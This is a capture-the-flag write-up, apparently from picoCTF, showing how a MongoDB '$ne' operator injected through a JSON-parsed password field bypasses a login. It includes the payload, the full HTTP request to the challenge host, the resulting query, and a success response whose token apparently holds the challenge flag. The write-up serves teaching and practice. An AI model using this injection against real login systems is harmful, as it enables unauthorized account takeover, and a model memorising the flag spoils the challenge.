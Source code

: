 **Target:** Bypass password authentication while using the known email address.

**Payload:**
```json
{
  "email": "picoplayer355@picoctf.org",
  "password": "{\"$ne\": \"\"}"
}
```

### Step-by-Step Exploitation

1. **HTTP Request:**
```http
POST /login HTTP/1.1
Host: atlas.picoctf.net:62080
Content-Type: application/json

{"email":"picoplayer355@picoctf.org","password":"{\"$ne\": \"\"}"}
```

2. **Server Processing:**
   - `email` = `"picoplayer355@picoctf.org"` (literal string)
   - `password` = `"{\"$ne\": \"\"}"` (string that looks like JSON)
   
3. **Vulnerability Trigger:**
   - `password.startsWith("{") && password.endsWith("}")` returns `true`
   - `JSON.parse("{\"$ne\": \"\"}")` returns `{$ne: ""}`

4. **MongoDB Query:**
```javascript
User.findOne({
  email: "picoplayer355@picoctf.org",
  password: {$ne: ""}  // "password is not equal to empty string"
})
```

5. **Query Logic:**
   - The `$ne` operator means "not equal"
   - Since the actual password is a 16-character hex string (not empty), the condition `{$ne: ""}` evaluates to `true`
   - MongoDB returns the user record

### Why This Works
- **Normal authentication:** `password: "wrongguess"` → No match
- **Exploited authentication:** `password: {$ne: ""}` → Matches any non-empty password
- **Result:** Authentication bypass without knowing the actual password

## HTTP Response Analysis

**Successful exploitation response:**
```http
HTTP/1.1 200 OK
Content-Type: application/json

{
  "success": true,
  "email": "picoplayer355@picoctf.org",
  "token": "cGljb0NURntqQmhEMnk3WG9OelB2XzFZeFM5RXc1cUwwdUk2cGFzcWxfaW5qZWN0aW9uXzI1YmE0ZGUxfQ==",
  "firstName": "pico",
  "lastName": "player"
}
```
